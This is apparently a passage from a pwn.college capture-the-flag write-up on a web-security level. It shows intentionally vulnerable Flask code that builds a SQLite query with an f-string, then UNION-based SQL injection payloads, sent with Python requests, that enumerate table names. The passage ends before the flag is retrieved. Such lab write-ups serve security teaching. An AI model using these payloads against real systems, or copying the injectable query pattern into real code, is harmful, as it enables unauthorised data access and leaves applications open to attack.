 > Response :  
```plain
<Response [200]> 
 pwn.college{Flag_here}
```


## Web-security level 6

* Exploit a SQLi vulnerability with an unknown database structure.

> Source Code : 
```py
def level6():
    table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"
    db.execute((f"CREATE TABLE IF NOT EXISTS {table_name} AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```
* In this challenge we have to extract the information form databases, but we don't know the table and the database name. 

* We can use some query that will help us in this case.

```sql
--  this query will extract data from databases.

SELECT name FROM sqlite_master WHERE type = "table"

--  or

SELECT tbl_name FROM sqlite_master
```

> Inside the ipython
```python
In [38]: import requests as rq
    ...: data = {
    ...:     'query': ' " UNION SELECT tbl_name FROM sqlite_master --'
    ...:     }
    ...: url = "http://challenge.localhost:80"
    ...: response = rq.post(url, params=data)
    ...: print(response, "\n", response.text)

<Response [200]> 
 table6108655952227085405

# or 

In [45]: import requests as rq
    ...: data = {
    ...:     'query': ' " UNION SELECT name FROM sqlite_master WHERE type="table"; --'
    ...:     }
    ...: url = "http://challenge.localhost:80"
    ...: response = rq.post(url, params=data)
    ...: print(response, "\n", response.text)


<Response [200]> 
 table6108655952227085405

# for the flag.
```